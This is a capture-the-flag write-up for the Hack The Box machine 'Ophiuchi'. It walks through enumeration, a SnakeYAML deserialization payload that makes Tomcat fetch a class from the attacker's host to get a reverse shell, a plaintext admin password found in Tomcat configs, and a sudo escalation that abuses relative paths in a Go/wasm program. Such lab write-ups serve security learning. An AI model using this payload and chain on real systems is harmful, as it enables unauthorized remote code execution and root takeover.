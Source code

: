 # ophiuchi

## Nmap scan

[Scan results][1]

From the nmap scan results only a tomcat server on port 8080 and an ssh server.

Going on the home page of the Tomcat server there is a "Yaml parser" but whatever the input it says `Due to security reason this feature has been temporarily on hold. We will soon fix the issue!`

Putting a `'` we can cause an exception on the server

```raw
org.yaml.snakeyaml.scanner.ScannerImpl.scanFlowScalarSpaces(ScannerImpl.java:1916)
 org.yaml.snakeyaml.scanner.ScannerImpl.scanFlowScalar(ScannerImpl.java:1831)
 org.yaml.snakeyaml.scanner.ScannerImpl.fetchFlowScalar(ScannerImpl.java:1027)
 org.yaml.snakeyaml.scanner.ScannerImpl.fetchSingle(ScannerImpl.java:1002)
 org.yaml.snakeyaml.scanner.ScannerImpl.fetchMoreTokens(ScannerImpl.java:390)
 org.yaml.snakeyaml.scanner.ScannerImpl.checkToken(ScannerImpl.java:227)
 org.yaml.snakeyaml.parser.ParserImpl$ParseImplicitDocumentStart.produce(ParserImpl.java:195)
 org.yaml.snakeyaml.parser.ParserImpl.peekEvent(ParserImpl.java:158)
 org.yaml.snakeyaml.parser.ParserImpl.checkEvent(ParserImpl.java:148)
 org.yaml.snakeyaml.composer.Composer.getSingleNode(Composer.java:118)
 org.yaml.snakeyaml.constructor.BaseConstructor.getSingleData(BaseConstructor.java:150)
 org.yaml.snakeyaml.Yaml.loadFromReader(Yaml.java:490)
 org.yaml.snakeyaml.Yaml.load(Yaml.java:416)
 Servlet.doPost(Servlet.java:15)
 javax.servlet.http.HttpServlet.service(HttpServlet.java:652)
 javax.servlet.http.HttpServlet.service(HttpServlet.java:733)
 org.apache.tomcat.websocket.server.WsFilter.doFilter(WsFilter.java:53)
```

## gobuster dir -u "http://ophiuchi.htb:8080" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o ophiuchi-dir.txt

[Scan results][2]

`gobuster` found 3 directory

- `test`
- `yaml` that seems the homepage 
- `manager` that require authentication

## Yaml page

The yaml page use the `snakeyaml` for tomcat wich is vulnerable to this [exploit][3]

So putting into the page field 

```raw
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.217/"]
  ]]
]
```

 The tomcat container will request to our machine a payload to load.

Let's write the java class the will load an RCE module inside the tomcat container.

[Java Exploit source][4]

## Tomcat

Now we have a reverse shell with user `tomcat`.

[Linpeas Results][5] didnt show nothing usefull.

Looking into the configuration files of tomcat we find the password for `admin` for the manger page:
***admin:whythereisalimit*** that can be used to login via `su`

## from Admin to Root

`sudo -l` says that admin can run without password `/usr/bin/go run /opt/wasm-functions/index.go`

```go
package main

import (
	"fmt"
	wasm "github.com/wasmerio/wasmer-go/wasmer"
	"os/exec"
	"log"
)


func main() {
	bytes, _ := wasm.ReadBytes("main.wasm")

	instance, _ := wasm.NewInstance(bytes)
	defer instance.Close()
	init := instance.Exports["info"]
	result,_ := init()
	f := result.String()
	if (f != "1") {
		fmt.Println("Not ready to deploy")
	} else {
		fmt.Println("Ready to deploy")
		out, err := exec.Command("/bin/sh", "deploy.sh").Output()
		if err != nil {
			log.Fatal(err)
		}
		fmt.Println(string(out))
	}
}
```

Application seems to load `main.wasm` and if `main.wasm` returns 1 then exec a script called `deploy.sh` both `main.wasm` and `deploy.sh` are called by relative path so we can use another directory using this two files to create our way to root.

First of all we need to decompile `main.wasm` to understand how it works.

We can convert the `main.wasm` to a text readable file using `wasm2wat` from the [WABT Suite][6]

The text converted `main.wasm` is:

```raw
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 0)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

Looking at index.go we recognize the `info` function so we can try to modify it's return value from 0 to 1 and recompile it using `wat2wasm`. Then upload again to the box with a modified version of `deploy.sh` with a reverse shell and see if we get root.

And it works!


![htbbadge](https://www.hackthebox.eu/badge/image/272787)
![achievement](https://www.hackthebox.eu/storage/achievements/14395d98b55bc4a9c89fb53243c9e13c.png)

[//]: #links
[1]: nmap/ophiuchi.nmap
[2]: ophiuchi-dir.txt
[3]: https://medium.com/@swapneildash/snakeyaml-deserilization-exploited-b4a2c5ac0858
[4]: Exploit
[5]: linpeas.txt
[6]: https://github.com/WebAssembly/wabt
